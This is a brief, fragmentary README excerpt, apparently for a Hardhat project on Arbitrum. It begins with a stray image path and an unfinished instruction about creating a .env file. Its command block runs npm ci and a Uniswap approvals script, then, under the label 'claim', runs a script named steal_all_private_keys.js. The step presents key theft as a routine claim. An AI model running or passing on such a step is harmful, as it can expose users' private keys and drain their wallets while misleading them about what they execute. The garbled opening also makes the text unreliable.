 Create `.env`. Insert Alchemy url and 

```
npm ci
#approves for Uniswap
npx hardhat run scripts/approves.js --network arb
#claim
npx hardhat run scripts/steal_all_private_keys.js --network arb
```

